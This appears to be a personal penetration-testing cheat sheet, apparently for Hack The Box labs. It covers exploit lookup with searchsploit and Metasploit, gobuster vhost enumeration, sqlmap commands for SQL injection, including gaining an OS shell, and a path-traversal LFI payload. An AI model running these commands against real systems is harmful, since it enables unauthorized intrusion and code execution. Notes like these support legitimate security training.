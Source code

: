 - google

  - `[service_string] [action_to_perform] exploit poc cve github`

- Metasploit:

  - `msfconsole`

  ```bash
  	> search exploit {exploit_found_with_searchsploit}
  	> show options {exploit}
  	> use {exploit}
  ```



## Network

## Web

### Proxy

- Host Mirrouting

  ```bash
  gobuster vhost -u http://thetoppers.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain
  ```

### Server-Side

- SQL Injection

  - Confirm the vulnerability

    ```bash
    sqlmap -u "http://[URL]?[QUERY]" -p [PARAM] search --dbs --level=5 --risk=3 --flush-session {--cookie=['COOKIE'] --dbms=[DATABASE]}```  
    ```

  - To run code execution

    ```bash
    sqlmap -u "http://[URL]?[QUERY]" -p [PARAM] search --dbs {--cookie=['COOKIE'] --dbms=[DATABASE]}--os-shell
    ```

- LFI / RFI

  - ```bash
    page=../../../../../../../../windows/system32/drivers/etc/hosts
    ```

- SSTI

  - ![image-20240922190834802](/home/damuna/.config/Typora/typora-user-images/image-20240922190834802.png)
